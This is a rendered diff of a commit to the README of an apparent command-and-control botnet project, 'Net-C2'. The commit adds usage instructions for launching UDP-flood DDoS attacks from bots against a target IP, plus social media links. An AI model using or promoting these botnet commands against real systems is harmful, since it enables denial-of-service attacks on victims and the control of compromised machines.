

Before and after one commit to zer0crypt02/Net-C2, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 98% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -276,6 +294,10 @@ screenshot <bot_id>
 # Automatic screenshots (every 10 seconds)
 ss start <bot_id>
 ss stop <bot_id>
+
+# DDoS attacks
+ddos start <bot_id> <target_ip> # Optional [--duration 30] [--threads 50]
+ddos stop <bot_id>
 ```
 
 ### 🔍 Data Collection
@@ -437,6 +459,22 @@ Use these commands:
 - `ss stop <bot_id>` - Stop automatic screenshots
 - Screenshots are saved to `ScreenS/` folder
 
+**How do I use DDoS attacks?**
+
+```bash
+# Basic DDoS attack (30 seconds, 50 threads)
+ddos start Bot-123 192.168.1.100
+
+# Custom duration and threads
+ddos start Bot-123 192.168.1.100 --duration 60 --threads 25
+
+# Stop DDoS attack
+ddos stop Bot-123
+```
+- Max duration: 300 seconds
+- Max threads: 100
+- Attack type: UDP flood on port 80
+
 ### 🌐 Network & Security
 
 **How do I enable Tor network?**
@@ -569,6 +610,13 @@ Use GitHub Issues for bug reports:
 - **Discussions:** GitHub Discussions
 - **Instagram:** @zer0crypt0
 
+## 🌏 Social Networks
+
+- **Instagram:** @zer0crypt0
+- **YouTube:** @FatihEmreZC
+- **Medium:** @fgedik754
+- **BlueSky:** @zer0crypt0.bsky.social
+
 ---
 
 <div align="center">
@@ -579,6 +627,6 @@ Use GitHub Issues for bug reports:
 
 *Developed for educational purposes. Use responsibly.*
 
-**⚠️ Publishing this code claiming "I made it" is PROHIBITED! ⚠️**
+**Thank you again to everyone who supports me**
 
 </div>
````
Also changed, not shown: other parts of README.md (+26 -5 lines).
